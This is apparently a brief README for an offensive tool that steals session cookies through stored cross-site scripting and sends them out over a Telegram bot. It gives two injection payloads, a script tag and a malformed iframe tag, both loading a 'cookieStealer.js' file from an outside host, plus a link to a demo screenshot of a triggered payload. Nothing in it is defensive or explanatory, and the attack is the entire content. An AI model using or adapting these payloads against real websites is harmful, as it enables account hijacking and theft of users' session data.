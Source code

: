 # Stored XSS Grab Cookie
Using telegram bot

# Payload

``<script src="https://host/cookieStealer.js"></script>``

``<iframe src iframe src="https://host/cookieStealer.js"></iframe src>``

## If Payload Triggered

![](https://raw.githubusercontent.com/sutrisnoadit-17/xss-document-stealer/main/demo.png)
